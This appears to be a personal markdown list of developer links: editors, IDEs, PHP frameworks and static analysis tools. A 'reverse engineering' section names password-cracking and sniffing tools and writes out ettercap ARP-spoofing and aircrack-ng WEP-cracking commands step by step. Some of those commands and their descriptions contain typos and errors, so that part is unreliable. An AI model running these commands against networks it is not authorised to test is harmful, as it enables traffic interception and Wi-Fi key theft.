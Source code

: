 # Links

awesome people:

- https://twitter.com/ajlkn is a skillful designer  
- https://github.com/spatie is a php agency producing high quality & widely used packages  
- https://codeblog.jonskeet.uk/ was an architect at c#
- https://www.joelonsoftware.com/ founded stackoverflow

tools:

- http://https//notepad-plus-plus.org/ as a fast editor for windows
- http://www.visualstudio.com/ as a C# IDE for windows
- http://www.jetbrains.com/ as an IDE for all platforms
- http://code.visualstudio.com/ as an editor for all platforms
- http://www.sublimetext.com/ as another editor

mobile frameworks:

- http://cordova.apache.org/
- http://ionicframework.com/

static analysis:

- http://fbinfer.com/
- https://flow.org/

basic tools:

- ninite.com
- easeus partition master
- windirstat
- speccy
- httptrack

username:

- https://knowem.com/checksocialnames.php
- https://checkusernames.com/
- https://iwantmyname.com/

visualizations:

- https://gource.io/ for git
- https://insights.stackoverflow.com for technologies

## php

resources:

- http://www.phptherightway.com/

frameworks:

- http://symfony.com/
- http://www.slimframework.com/
- http://laravel.com/
- http://cakephp.org/

## C#

compilers:

- https://www.xamarin.com/

## Frontend

- https://tympanus.net/codrops/

## reverse engineering

hashes:

- http://crackstation.net/

toolkits:

- http://www.exploit-db.com/
- https://www.kali.org/
- https://www.metasploit.com/

programs:

- Reflector & FileDissassembler (dissassemble .NET)
- IDA Pro
- netcut/tuxcut
- no-ip DUC
- cheatengine
- firesheep
- Cain & Abel
- SMAC 2.7
- colasoft mac scanner pro
- wireshark
- John the Ripper
- winpccap

ettercap:

- configure `etter.conf` (UID = 0, GID = 0, exclude iptables)
- `ettercap -T -Q -M arp:remote -i <wlandevice>`
- `urlsnarf -i <wlandevice>`

aircrack:

- `airmon-ng check kill` to finishes all processes that may interfer
- `airmon-ng start <wlandevice>` to generate new virtual monitordevice
- `airdoump-ng <monitordevice>` to dump all incoming packages
- `airodump-ng -w wep -c <channel> --bssid <macadress> <monitordevice>` to connect to the target network
- `aireplay-ng -3 -a <macadress> <monitordevice>` to generate additional traffic
- `aireplay-ng -1 0 -b <macadress> <monitormode>` to capture ARP packets and generate even more traffic
- `ls` to find name of the `.cap` file with the collected traffic
- `aircrack-ng <packetname>` to decrypt the key

pentesting:

- http://www.enigmagroup.org/
- https://www.hackthissite.org/
- http://www.happy-security.de/